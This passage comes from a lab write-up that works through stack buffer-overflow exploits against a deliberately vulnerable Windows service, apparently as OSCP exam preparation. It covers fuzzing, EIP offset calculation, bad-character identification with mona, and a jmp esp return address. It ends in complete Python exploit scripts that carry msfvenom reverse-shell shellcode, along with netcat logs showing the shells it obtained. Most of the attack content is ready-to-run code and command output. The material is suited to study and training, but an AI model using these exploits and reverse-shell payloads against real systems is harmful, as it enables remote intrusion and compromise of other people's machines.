  shellcode += b"\x50\x78\x72\x3e\xdd\x9e\x1e\x50\x88\x09\xb7"
  shellcode += b"\xc9\x91\xc1\x26\x15\x0c\xac\x69\x9d\xa3\x51"
  shellcode += b"\x27\x56\xc9\x41\xd0\x96\x84\x3b\x77\xa8\x32"
  shellcode += b"\x53\x1b\x3b\xd9\xa3\x52\x20\x76\xf4\x33\x96"
  shellcode += b"\x8f\x90\xa9\x81\x39\x86\x33\x57\x01\x02\xe8"
  shellcode += b"\xa4\x8c\x8b\x7d\x90\xaa\x9b\xbb\x19\xf7\xcf"
  shellcode += b"\x13\x4c\xa1\xb9\xd5\x26\x03\x13\x8c\x95\xcd"
  shellcode += b"\xf3\x49\xd6\xcd\x85\x55\x33\xb8\x69\xe7\xea"
  shellcode += b"\xfd\x96\xc8\x7a\x0a\xef\x34\x1b\xf5\x3a\xfd"
  shellcode += b"\x3b\x14\xee\x08\xd4\x81\x7b\xb1\xb9\x31\x56"
  shellcode += b"\xf6\xc7\xb1\x52\x87\x33\xa9\x17\x82\x78\x6d"
  shellcode += b"\xc4\xfe\x11\x18\xea\xad\x12\x09\xea\x51\xed"
  shellcode += b"\xb2"
  buffer = b"A" * OFFSET
  eip = pack("<L", 0x625011D3) # jmp_esp
  nop = b"\x90" * 32
  payload = buffer + eip + nop + shellcode

  send_payload(payload)
```

```bash
root@kali:~# nc -lnvp 443
listening on [any] 443 ...
connect to [10.11.35.147] from (UNKNOWN) [10.10.193.165] 49297
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

---

# Overflow 3

## Fuzzing

```python
#!/usr/bin/python3

import socket
import sys

TARGET = "10.10.193.165"
PORT = 1337

def send_payload(payload, debug=False):
  try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, PORT))
    s.recv(1024)
    if debug:
      breakpoint()
    s.send(b"OVERFLOW3 " + payload)
    s.close()
  except:
    print("Could not establish a connection")
    sys.exit(0)

def fuzz():
  for i in range(0, 10000, 500):
    buffer = b"A" * i
    print("Fuzzing %s bytes" % i)
    send_payload(buffer, debug=False)
```



## Controlling `EIP` (calculating the offset)

```bash
$ /usr/bin/msf-pattern_create -l 2000
```

```python
def eip_offset():
  # /usr/bin/msf-pattern_create -l 2000
  pattern = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co", "utf-8")

  send_payload(pattern)
```



```bash
$ /usr/bin/msf-pattern_offset -q 35714234
[*] Exact match at offset 1274
```

```python
OFFSET = 1274 # /usr/bin/msf-pattern_offset -q 35714234
def eip_control():
  buffer = b"A" * OFFSET
  eip = b"B" * 4
  payload = buffer + eip

  send_payload(payload)
```



## Identifying bad characters

(Optionnal) Set working directory:

```python
!mona config -set workingfolder C:\Users\admin\Desktop
```

Generate a byte array using `mona`, and exclude the null byte (\x00) by default:

```python
!mona bytearray -b "\x00"
```

Restart the `oscp.exe` and re-run the script. 

```python
def bad_chars():
  # \x00\x
  all_chars = bytes([
    0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
    0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
    0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
    0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
    0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
    0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
    0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
    0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
    0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
    0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
    0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
    0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
    0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
    0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
    0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
    0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
    0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
    0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
    0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
    0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
    0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
    0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
    0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
    0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
    0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
    0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
    0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
    0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
    0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
    0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
    0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
    0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
  ])

  buffer = b"A" * OFFSET
  eip = b"B" * 4
  payload = buffer + eip + all_chars

  send_payload(payload)
```



Compare the byte array with the memory: 

```bash
!mona compare -f C:\Users\admin\Desktop\bytearray.bin -a 019BFA30
```



If we remove the "second" characters, we have the following list of bad characters: \x00\x11\x40\x5f\xb8\xee

## Finding a return instruction

```python
!mona jmp -r esp -cpb "\x00\x11\x40\x5f\xb8\xee"
```



0x62501203 seems to be a good candidate.

## Jumping to shell code

```bash
msfvenom -p 'windows/shell_reverse_tcp' LHOST=$(vpnip) LPORT=443 EXITFUNC=thread -f 'python' --bad-chars="\x00\x11\x40\x5f\xb8\xee" --var-name shellcode
```

```python
def exploit():
  # msfvenom -p 'windows/shell_reverse_tcp' LHOST=$(vpnip) LPORT=443  -f 'python' --bad-chars="\x00\x11\x40\x5f\xb8\xee" --var-name shellcode
  shellcode  = b""
  shellcode += b"\xfc\xbb\xb1\xad\x85\xf0\xeb\x0c\x5e\x56\x31"
  shellcode += b"\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef"
  shellcode += b"\xff\xff\xff\x4d\x45\x07\xf0\xad\x96\x68\x78"
  shellcode += b"\x48\xa7\xa8\x1e\x19\x98\x18\x54\x4f\x15\xd2"
  shellcode += b"\x38\x7b\xae\x96\x94\x8c\x07\x1c\xc3\xa3\x98"
  shellcode += b"\x0d\x37\xa2\x1a\x4c\x64\x04\x22\x9f\x79\x45"
  shellcode += b"\x63\xc2\x70\x17\x3c\x88\x27\x87\x49\xc4\xfb"
  shellcode += b"\x2c\x01\xc8\x7b\xd1\xd2\xeb\xaa\x44\x68\xb2"
  shellcode += b"\x6c\x67\xbd\xce\x24\x7f\xa2\xeb\xff\xf4\x10"
  shellcode += b"\x87\x01\xdc\x68\x68\xad\x21\x45\x9b\xaf\x66"
  shellcode += b"\x62\x44\xda\x9e\x90\xf9\xdd\x65\xea\x25\x6b"
  shellcode += b"\x7d\x4c\xad\xcb\x59\x6c\x62\x8d\x2a\x62\xcf"
  shellcode += b"\xd9\x74\x67\xce\x0e\x0f\x93\x5b\xb1\xdf\x15"
  shellcode += b"\x1f\x96\xfb\x7e\xfb\xb7\x5a\xdb\xaa\xc8\xbc"
  shellcode += b"\x84\x13\x6d\xb7\x29\x47\x1c\x9a\x25\xa4\x2d"
  shellcode += b"\x24\xb6\xa2\x26\x57\x84\x6d\x9d\xff\xa4\xe6"
  shellcode += b"\x3b\xf8\xcb\xdc\xfc\x96\x35\xdf\xfc\xbf\xf1"
  shellcode += b"\x8b\xac\xd7\xd0\xb3\x26\x27\xdc\x61\xe8\x77"
  shellcode += b"\x72\xda\x49\x27\x32\x8a\x21\x2d\xbd\xf5\x52"
  shellcode += b"\x4e\x17\x9e\xf9\xb5\xf0\xab\xf6\x96\x93\xc4"
  shellcode += b"\x0a\xd8\x92\xaf\x82\x3e\xfe\xdf\xc2\xe9\x97"
  shellcode += b"\x46\x4f\x61\x09\x86\x45\x0c\x09\x0c\x6a\xf1"
  shellcode += b"\xc4\xe5\x07\xe1\xb1\x05\x52\x5b\x17\x19\x48"
  shellcode += b"\xf3\xfb\x88\x17\x03\x75\xb1\x8f\x54\xd2\x07"
  shellcode += b"\xc6\x30\xce\x3e\x70\x26\x13\xa6\xbb\xe2\xc8"
  shellcode += b"\x1b\x45\xeb\x9d\x20\x61\xfb\x5b\xa8\x2d\xaf"
  shellcode += b"\x33\xff\xfb\x19\xf2\xa9\x4d\xf3\xac\x06\x04"
  shellcode += b"\x93\x29\x65\x97\xe5\x35\xa0\x61\x09\x87\x1d"
  shellcode += b"\x34\x36\x28\xca\xb0\x4f\x54\x6a\x3e\x9a\xdc"
  shellcode += b"\x9a\x75\x86\x75\x33\xd0\x53\xc4\x5e\xe3\x8e"
  shellcode += b"\x0b\x67\x60\x3a\xf4\x9c\x78\x4f\xf1\xd9\x3e"
  shellcode += b"\xbc\x8b\x72\xab\xc2\x38\x72\xfe\xc2\xbe\x8c"
  shellcode += b"\x01"
  buffer = b"A" * OFFSET
  eip = pack("<L", 0x62501203) # jmp_esp
  nop = b"\x90" * 32
  payload = buffer + eip + nop + shellcode

  send_payload(payload)

exploit()
```

```bash
root@kali:~# nc -lnvp 443
listening on [any] 443 ...
connect to [10.11.35.147] from (UNKNOWN) [10.10.193.165] 49301
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>
```

---

And so on...